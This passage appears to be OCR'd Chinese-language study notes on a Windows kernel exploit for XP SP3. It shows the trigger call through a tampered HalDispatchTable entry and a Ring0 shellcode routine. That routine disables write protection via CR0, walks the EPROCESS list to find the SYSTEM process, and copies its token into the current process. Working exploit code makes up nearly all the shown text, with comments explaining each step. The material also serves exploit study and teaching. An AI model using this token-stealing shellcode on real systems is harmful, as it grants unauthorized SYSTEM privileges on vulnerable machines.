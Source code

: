                     //触发漏洞, 该函数会去HalDispatchTable表找HaliQuerySystemInformation函数, 而经过前面的篡改后这个位置的值已经为0
                    NtStatus = NtQueryIntervalProfile(
                        ProfileTotalIssues, // Source
                        NULL);              // Interval
                    ```

                * shellcode
                    ```cpp
                    NTSTATUS Ring0ShellCode(    
						ULONG InformationClass,
						ULONG BufferSize,
						PVOID Buffer,
						PULONG ReturnedLength)
                    {
                        //打开内核写
                        __asm
                        {
                            cli;    // 屏蔽所有外部中断, 保证程序不被打断
                            mov eax, cr0;
                            mov g_uCr0,eax; 
                            and eax,0xFFFEFFFF; 
                            mov cr0, eax; 
                        }
                        //USEFULL FOR XP SP3
                        __asm
                        {
                            //KPCR 
                            //由于Windows需要支持多个CPU, 因此Windows内核中为此定义了一套以处理器控制区(Processor Control Region)
                            //即KPCR为枢纽的数据结构, 使每个CPU都有个KPCR. 其中KPCR这个结构中有一个域KPRCB(Kernel Processor Control Block)结构, 
                            //这个结构扩展了KPCR. 这两个结构用来保存与线程切换相关的全局信息. 
                            //通常fs段寄存器在内核模式下指向KPCR, 用户模式下指向TEB.
                            //http://blog.csdn.net/hu3167343/article/details/7612595
                            //http://huaidan.org/archives/2081.html
                            mov eax, 0xffdff124  //KPCR这个结构是一个相当稳定的结构,我们甚至可以从内存[0FFDFF124h]获取当前线程的ETHREAD指针。
                            mov eax,[eax] //PETHREAD
                            mov esi,[eax+0x220] //PEPROCESS
                            mov eax, esi
                    searchXp: // 循环, 寻找system进程的EPROCESS结构
                            mov eax,[eax+0x88] //NEXT EPROCESS
                            sub eax,0x88
                            mov edx,[eax+0x84] //PID
                            cmp edx,0x4	//SYSTEM PID
                            jne searchXp
                            mov eax, [eax+0xc8] //SYSTEM TOKEN
                            mov [esi+0xc8],eax //CURRENT PROCESS TOKEN // 提权
                        }
                        //关闭内核写
                        __asm
                        {
                            sti;    // 恢复所有外部中断
                            mov eax, g_uCr0;
                            mov cr0,eax;
                        }

